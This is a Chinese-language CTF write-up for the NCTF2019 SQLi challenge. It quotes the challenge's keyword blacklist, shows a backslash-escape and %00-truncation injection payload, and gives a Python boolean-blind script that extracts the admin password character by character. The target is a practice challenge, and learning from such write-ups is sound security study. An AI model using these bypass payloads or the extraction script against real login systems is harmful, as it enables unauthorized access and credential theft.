 # \<NCTF2019>SQLi


打开题目
>sqlquery : select * from users where username='' and passwd=''

存在`robots.txt`，得到提示
```php
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```
过滤了单引号，但没有过滤转义符号，还是可以逃逸的，php是可以`%00`截断的版本
```html
username=\&passwd=||(1);%00
```
得到
>**HTTP/1.1 302 Found**
Server: openresty
Date: Wed, 01 Dec 2021 09:17:49 GMT
Content-Type: text/html
Content-Length: 2228
Connection: close
**Location: welcome.php**
X-Powered-By: PHP/5.2.16

根据提示需要获取admin的密码，显然是布尔盲注了
```python
import requests
from urllib import parse

urll="http://6cd4da7b-0239-4646-a44a-8ef97233503e.node4.buuoj.cn:81"
dataa={"username":"\\","passwd":""}
passwd=""

for i in range(50):
    print(i,end=">")
    for w in "qwertyuioplkjhgfdsazxcvbnmAQZXSWEDCVFRTGBNHYUJMKIOLP1234567890_":
        payload=f"||(passwd/**/regexp/**/\"^{passwd}{w}\");"+parse.unquote("%00")
        dataa["passwd"]=payload
        response=requests.post(url=urll,data=dataa,allow_redirects=False)
        if response.status_code == 302:
            passwd+=w
            print(passwd)
            break
```
提交密码，得到flag

# \<NPUCTF2020>ezinclude
